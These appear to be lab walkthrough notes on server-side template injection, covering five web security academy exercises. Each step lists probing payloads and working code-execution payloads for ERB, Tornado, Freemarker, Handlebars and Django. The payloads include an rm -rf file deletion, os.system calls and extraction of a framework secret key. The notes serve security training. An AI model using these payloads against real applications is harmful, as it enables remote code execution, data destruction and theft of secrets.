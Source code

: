 # Navigation
- [Basic server-side template injection](#basic-server-side-template-injection)
- [Basic server-side template injection (code context)](#basic-server-side-template-injection-code-context)
- [Server-side template injection using documentation](#server-side-template-injection-using-documentation)
- [Server-side template injection in an unknown language with a documented exploit](#server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)
- [Server-side template injection with information disclosure via user-supplied objects](#server-side-template-injection-with-information-disclosure-via-user-supplied-objects)
# Basic server-side template injection
- Delete `morale.txt`
1. Visit application
2. View first product and receive message "Unfortunately this product is out of stock"
	1. Notice there is a URL parameter passed and this is reflected in the HTTP response
```
academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
```
3. Using different SSTI probing payloads we get successful execution against Ruby ERB
```
academy.net/?message=<%= 7*7 %>
```
- Notice the message is displayed as 49 in the HTTP response
4. Use simple code execution payload
```
<%= system("rm -rf /home/carlos/morale.txt") %>
```
# Basic server-side template injection (code context)
- Delete `morale.txt`
1. Login
2. Option to change preferred name
	1. This name appears when you comment on a blog post
3. Submit probing payload for basic SSTI
```
POST /my-account/change-blog-post-author-display
...<SNIP>...
blog-post-author-display={{7*7}}
```
4. Viewing a blog we've commented on renders as `{{49}}`, this is indicative of a code context
5. Confirm this by submitting a SSTI payload without the curly braces
```
POST /my-account/change-blog-post-author-display
...<SNIP>...
blog-post-author-display=7*7
```
6. Viewing a blog we've commented on renders as `49`, confirming the suspicion
7. Trigger a divide by zero error
```
POST /my-account/change-blog-post-author-display
...<SNIP>...
blog-post-author-display=1/0
```
8. Viewing the blog gives a verbose error that the template engine in use is Tornado
9. After reading the Tornado documentation, we can end the code block and insert our own one to get code execution
```
POST /my-account/change-blog-post-author-display
...<SNIP>...
blog-post-author-display=7*7}}{%import os%}{{os.system('id')
```
- We end the first template block with `}}` and start our own one. There is also no need to close the payload with curly braces at the end
# Server-side template injection using documentation
- Delete `morale.txt`
1. Login as the content manager with the credentials given
2. Viewing a product allows us to edit the template that is being used
	1. Viewing the data that is already inside discloses that the template syntax uses `${...}` syntax. This is an important clue
3. Submitting error-based polyglot payload doesn't trigger any errors
4. Use https://cheatsheet.hackmanit.de/template-injection-table/ to narrow down the template engine that is being used
	1. Toggle Error-Based Polyglots to be **off**
5. Copy the `${"<%-1-%>"}` payload and preview and confirm we get `<%-1-%>` reflected in the preview. This confirms the template engine can be 1 of 4 different templates
6. Copy the `<%=1%>@*#{1}` payload and preview to confirm we get `<%=1%>@*1` - This confirms the template engine is Freemarker
7. PayloadAllTheThings has a payload to get code execution
```
${"freemarker.template.utility.Execute"?new()("id")}
```
8. We have code execution
# Server-side template injection in an unknown language with a documented exploit
- Delete `morale.txt`
1. Selecting a product that is out of stock gives us a message saying it is out of stock
2. Submitting SSTI error polyglot payload triggers a 500 server error
```
GET /?message=${{<%[%'"}}%\.
```
2. In the error message we get a stack trace telling us that Node.js is used as well as Handlebars templating engine
```html
<p class=is-warning>/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
throw new Error(str);
^
Error: Parse error on line 1:
${{&lt;%[%&apos;&quot;}}%\.
---^
Expecting &apos;ID&apos;, &apos;STRING&apos;, &apos;NUMBER&apos;, &apos;BOOLEAN&apos;, &apos;UNDEFINED&apos;, &apos;NULL&apos;, &apos;DATA&apos;, got &apos;INVALID&apos;
at Parser.parseError (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
at Parser.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
at HandlebarsEnvironment.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)
at compileInput (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)
at ret (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)
at [eval]:5:13
at Script.runInThisContext (node:vm:128:12)
at Object.runInThisContext (node:vm:306:38)
at node:internal/process/execution:83:21
at [eval]-wrapper:6:24
Node.js v19.8.1</p>
```
3. HackTricks has a Handlebars NodeJS code execution payload that is URL encoded
4. Put this in the encoder/decoder and change the payload to `sleep 5`
5. Send payload
```
GET /?message=%7b%7b%23...<SNIP>...7d%7d
```
- Response was in 5.5 seconds confirming code execution
- Change payload to complete the lab
# Server-side template injection with information disclosure via user-supplied objects
- Steal and submit the framework's secret key
1. Login as the content manager
2. View a product and you can edit the template that is being used, you get a preview option
	1. Looking inside a template, we can see that `{{` syntax is used giving us a hint
3. Preview a polyglot error based payload and we get an error disclosing that `Django` is in use
4. Submit the "Debug" payload to see what objects we can access
```
{% debug %}
```
5. In the response, we see we can access 'Settings'
6. ChatGPT tells us that some sensitive information we can get is `settings.SECRET_KEY`
```
{{settings.SECRET_KEY}}
```
